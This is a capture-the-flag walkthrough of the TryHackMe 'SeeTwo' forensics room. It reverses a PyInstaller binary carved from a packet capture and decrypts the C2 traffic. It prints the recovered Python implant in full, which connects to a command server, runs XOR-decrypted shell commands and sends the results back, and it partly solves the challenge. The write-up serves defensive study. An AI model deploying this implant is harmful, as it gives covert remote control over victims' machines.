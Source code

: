```yaml
---
title: SeeTwo - TryHackMe - Walkthrough
date: 2024-11-16 10:00:00 +0200
categories: [TryHackMe]
tags: [seetwo,forensics,pyinstxtractor,xor,python,wireshark,c2]
description: TryHackMe network traffic forensics which involves reversing a binary.
image:
  path: /assets/blog/SeeTwo/Room.png
  alt: SeeTwo Room image
---
```


This Room is rated as Medium!
Visit the room here: <https://tryhackme.com/r/room/seetworoom>

## Description

> You are tasked with looking at some suspicious network activity by your digital forensics team.
>
> The server has been taken out of production while you analyze the suspicious behavior.
>
> Click on the Download Task Files button at the top of this task. You will be provided with an evidence.zip file.
> Extract the zip file's contents and begin your analysis in order to answer the questions.
>
> Note: For free users using the AttackBox, the challenge is best done using your own environment. Some browsers may detect the file as malicious. The zip file is safe to download with md5 of ea6f0bf505f87d18c9881de055b63ed3. In general, as a security practice, download the zip and analyze the forensic files on a dedicated virtual machine, and not on your host OS.

So first I downloaded the file.

## How I solved it

I started my initial investigation in Wireshark by inspecting the traffic.

![Wireshark and the first impression](/assets/blog/SeeTwo/Wireshark0.png)

There is a huge amount of http traffic (green packages). If we inspect the protocol hierarchy we see mainly TCP and HTTP. This indicates that there is a huge amount of data send in clear text over HTTP.

![Hierarchy Wireshark](/assets/blog/SeeTwo/Wireshark1.png)

Now let's inspect some data streams of HTTP to find out what is inside them.

![Base64 HTTP package](/assets/blog/SeeTwo/Wireshark2.png)

This looks like `base64`-encoded data, and that's not only for that stream but for multiple data streams. Now let's use [`tshark`](https://www.wireshark.org/docs/man-pages/tshark.html) to extract the base64 from the stream 2 which was the first I discovered. I saved the `base64` response as a file and removed the HTTP headers from the file so I could decode the huge amount of encoded data.

**Why is the stream 2 more interesting to me than the others?** This stream is very huge over 31 megabytes of data, so this likely can be some tool or some exfiltrated data. 

```sh
cat base64-stream2.txt | tr -d '\n' | base64 -d > stream2
```

![](/assets/blog/SeeTwo/Unix0.png)

This is nice the extracted blob of data is a ELF binary, so the next step for me was to open this binary in Ghirda. After some searching where the main function or some equivalent is, I found this piece of code which looks pretty interesting.

![Pyinstaller strings](/assets/blog/SeeTwo/Ghidra0.png)

There is something with `pyinstaller` which catched my eye. If we google pyinstaller we are provided with the following page:

![Google results](/assets/blog/SeeTwo/Google0.png)

This is a executable which makes a python script to one binary. So let's search the internet if there is any decompiler to retrieve the original code. I found this tool <https://github.com/extremecoders-re/pyinstxtractor>, I cloned the GitHub repositry and then this command:
```sh
python pyinstxtractor/pyinstxtractor.py stream2
```

Now I got like all files used for that binary, this is now decompiled to `.pyc` files, which are essentially compiled python scripts:

![](/assets/blog/SeeTwo/files0.png)

The file `client.pyc` looks interesting. I couldn't open it because it's compiled, so I searched for a extractor.
I found another tool `uncompyle6` which let's us do this.

```sh
pip3 install uncompyle6 # if you need to install it
uncompyle6 client.pyc > client.py
```

Wow now we have the source code which we can reverse engineer the messages send in the other `base64` encoded TCP streams:
```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

Looks like every command of the C2 server. The C2 server connects to a server and executes commands which encrypted by the XOR encryption. The key for the XOR encrypted data is `MySup3rXoRKeYForCommandandControl`. Before the data we send a image which is used to reduce risk of detection, after that we get a seperator and the XOR encrypted data. I checked the WireShark traffic and found out that we captured the commands send, the only thing we need to do is to decrypt it. So let's build a reverse tool to get the commands back.

You can use this command to extract the data from TCP stream 3 which most likely is the stream we need to investigate.

```sh
tshark -r capture.pcap -qz follow,tcp,raw,3 | sed '$ d' | tail -n +7 | tr -d ' ' | while IFS= read -r line; do echo "$line" | xxd -r -p;echo ""; done > part1.txt
```

For the second stream of interest I just changed the output file and the stream after the `raw,`, stream 3 and 4 look interesting.

To go further we need to remove the image from the data to extract the commands. I build this nice python script with the help of some python:

```python
import base64


def xor_decrypt(encrypted_data, key):
    key = key.encode("utf-8")
    key_length = len(key)
    encrypted_data = base64.b64decode(encrypted_data.strip())
    decrypted_data = bytearray()
    
    for i, byte in enumerate(encrypted_data):
        decrypted_data.append(byte ^ key[i % key_length])
    
    return decrypted_data.decode("utf-8")

def decrypt_file(input_file, output_file, key):
    with open(input_file, "r") as infile, open(output_file, "w") as outfile:
        for line in infile:
            line = line.split("AAAAAAAAAA")[1]
            try:

                decrypted_text = xor_decrypt(line, key)

                outfile.write(decrypted_text + "\n")
            except Exception as e:
                print(f"Failed to decrypt line: {line.strip()}, Error: {e}")

# Configuration
input_file = "part1.txt"
output_file = "part1_commands.txt"
key = "MySup3rXoRKeYForCommandandControl"

decrypt_file(input_file, output_file, key)

print(f"Decryption complete. Decrypted data saved to {output_file}")
```

After I extracted the command I was able to complete the room.

Here are the extracted commands:

![](/assets/blog/SeeTwo/first.png)

![](/assets/blog/SeeTwo/second.png)

## Conclusion

I really liked the room it involved different techniques and tools and I could learn some new stuff.

